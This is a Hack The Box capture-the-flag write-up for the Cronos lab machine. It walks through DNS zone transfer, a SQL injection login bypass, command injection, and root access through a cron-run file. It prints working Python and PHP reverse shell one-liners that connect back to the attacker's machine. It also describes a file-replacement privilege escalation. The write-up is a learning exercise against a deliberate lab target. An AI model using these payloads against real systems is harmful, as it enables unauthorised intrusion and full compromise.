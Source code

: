 # Cronos

This is my write-up for the machine **Cronos** on Hack The Box located at: [https://app.hackthebox.com/machines/Cronos](https://app.hackthebox.com/machines/Cronos).

nmap scan: `nmap 10.10.10.13`

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1).png>)

We see three ports open. On port 80, we see the following:&#x20;

![](<../../.gitbook/assets/image (333) (1).png>)

I am not too familiar with DNS enumeration methods. For this reason, after I searched online for a while (and got nowhere), I then read up what I had missed from the official Hack The Box write-up for this machine. In it the author says to add **cronos.htb** to the **/etc/hosts** file. Then run the following command:

`dig axfr @10.10.10.13 cronos.htb`

This will show us the following:

![](<../../.gitbook/assets/image (327) (1).png>)

We see an **admin.cronos.htb**, so we will add that to the **/etc/hosts** file as well (step was mentioned in the official write-up):

![](<../../.gitbook/assets/image (338) (1) (1).png>)

Now if we go to **admin.cronos.htb**, we see the following:

![](<../../.gitbook/assets/image (347) (1) (1) (1).png>)

Looking at the tags for this machine, I believe that we have to do a SQL Injection for this authentication portal:

![](<../../.gitbook/assets/image (367) (1) (1) (1).png>)

I then opened this web page in Burp Suite to see if I can manipulate the outgoing HTTP requests. I was not able to get any where using the **Intruder** or **Repeater** modules. Reading the write-up again, it seems the SQL Injection I did try **admin'--** was incorrect by a small bit. I miseed the extra **" -"** at the end:

![screenshot from official write-up](<../../.gitbook/assets/image (332) (1) (1).png>)

I was then on this page:

![](<../../.gitbook/assets/image (346) (1) (1) (1).png>)

I tried to run two commands together, the traceroute and an additional **ls**:

![](<../../.gitbook/assets/image (335) (1) (1) (1).png>)

When I run `cat index.php`, I get the following:

![](<../../.gitbook/assets/image (359) (1) (1).png>)

To me this means that there is room for me to run a reverse netcat connection to my own machine. Netcat did not work for me but the following python command from [this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) worked for me instead:

`export RHOST="10.10.14.14";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

&#x20;

![](<../../.gitbook/assets/image (361) (1) (1) (1).png>)

I then upgraded by shell to a interactive tty shell (from [this website](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)):

![](<../../.gitbook/assets/image (334) (1) (1) (1).png>)

I was able to find the user.txt flag in the user **noulis**'s home directory:

![](<../../.gitbook/assets/image (363) (1) (1) (1) (1) (1).png>)

In order to upload **linpeas.sh** to the machine, I had to download it locally and serve it up in a python http server:

![](<../../.gitbook/assets/image (357) (1) (1) (1).png>)

I was then able to grab it from the other machine using **wget**:

![](<../../.gitbook/assets/image (358) (1) (1).png>)

In the official write-up, something stood out to me:

![](<../../.gitbook/assets/image (364) (1) (1) (1) (1).png>)

Obviously, in the real world a hint like this would not be given, but since I had tried what I had known and got nowhere, I took a hint from this. This led me to finding this:

![](<../../.gitbook/assets/image (360) (1) (1) (1).png>)

I knew that root was running the **artisan** file. After some messing around, what worked for me was creating a local file named artisan and copying all the contents from the original file into it. Then I edited one line in the file to get me a reverse shell:

`$sock=fsockopen("10.10.14.14",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);`

This was a line I got from the [same GitHub page mentioned previously](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php). After uploading the file using python3 http server, the file would upload as **artisan.1**:

![](<../../.gitbook/assets/image (356) (1).png>)

As shown in the screenshot above, in order to go around this I just updated the file to be the one I gave it. I would recommend you run the netcat listener **prior** to updating the artisan file for best results. After a minute of waiting, I had the shell:

![](<../../.gitbook/assets/image (365) (1) (1).png>)
